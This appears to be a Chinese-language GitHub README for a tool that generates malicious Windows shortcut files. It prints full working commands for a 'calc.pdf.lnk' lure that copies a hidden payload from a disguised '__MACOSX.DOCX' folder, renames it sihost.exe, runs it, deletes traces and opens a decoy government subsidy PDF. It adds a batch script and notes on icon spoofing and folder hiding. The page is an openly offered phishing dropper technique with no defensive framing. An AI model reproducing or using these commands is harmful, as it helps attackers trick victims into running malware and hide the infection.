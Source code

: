 1.快捷方式生成
参考 www.x86matthew.com 的项目，原文链接已删除。 
2023年7月份改的代码，主要配合bat/vbs脚本调用，图标替换通过010editor进行修改，之前本想将其写成个 操作友好的工具，但由于部分原因没弄成

```
linkgen.exe calc.pdf.lnk "test" "xcopy /h /y %cd%__MACOSX.DOCX\calc.tmp %temp%\ & attrib -s -a -h %temp%\calc.tmp & rename %temp%\calc.tmp sihost.exe & attrib -s -a -h %cd%__MACOSX.DOCX\calc.tmp & start %temp%\sihost.exe & del "calc.pdf.lnk" & del /F /A /Q "%cd%__MACOSX.DOCX\wct366A.tmp" & copy "%cd%__MACOSX.DOCX\天桥区电子商务产业发展扶持奖励政策.pdf" "%cd%\天桥区电子商务产业发展扶持奖励政策.pdf" & start "" "%cd%\天桥区电子商务产业发展扶持奖励政策.pdf" & del "%cd%__MACOSX.DOCX\天桥区电子商务产业发展扶持奖励政策.pdf" "
```

2.图标处理
参考 https://www.cnblogs.com/f-carey/p/16542156.html#tid-sywapk 
<img width="910" alt="image" src="https://github.com/user-attachments/assets/1372ea03-f5ee-4e01-ba5b-d83d7ab8424d">

3.bat脚本
```
xcopy /h /y %cd%__MACOSX.DOCX\calc.tmp %temp%\ & attrib -s -a -h %temp%\calc.tmp & rename %temp%\calc.tmp sihost.exe & attrib -s -a -h %cd%__MACOSX.DOCX\calc.tmp & start %temp%\sihost.exe & del "calc.pdf.lnk"  &  del /F /A /Q %cd%__MACOSX.DOCX\calc.tmp
```

4.文件夹隐藏
打开隐藏后效果如下，正常情况默认隐藏 .__MACOSX 文件夹
<img width="904" alt="image" src="https://github.com/user-attachments/assets/443b9b7a-20cf-413e-adc6-2df3ab6ee7dd">
